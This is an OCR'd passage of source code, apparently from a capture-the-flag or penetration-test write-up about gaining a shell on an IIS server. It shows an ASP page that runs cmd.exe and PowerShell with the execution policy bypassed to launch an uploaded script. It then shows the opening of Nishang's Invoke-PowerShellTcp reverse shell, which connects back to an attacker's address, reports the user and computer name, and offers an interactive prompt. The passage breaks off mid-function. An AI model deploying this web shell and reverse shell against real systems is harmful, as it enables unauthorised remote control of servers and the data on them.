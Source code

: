 ```asp
<%
Set oWSH = Server.CreateObject("WScript.Shell")
Call oWSH.Run ("cmd.exe /c powershell -ExecutionPolicy Bypass -File C:\inetpub\wwwroot\upload\Invoke-PowerShellTcp.ps1", 0, True)
%>
```

And the nishang script will be the same as it is in the github repository but we will add an extra line at the the end to invoke the function immediately:

```powershell
function Invoke-PowerShellTcp 
{      
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Port,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,

        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )

    
    try 
    {
        #Connect back if the reverse switch is used.
        if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }

        #Bind to the provided port if Bind switch is used.
        if ($Bind)
        {
            $listener = [System.Net.Sockets.TcpListener]$Port
            $listener.start()    
            $client = $listener.AcceptTcpClient()
        } 

        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        #Send back current username and computername
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        #Show an interactive PowerShell prompt
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)
```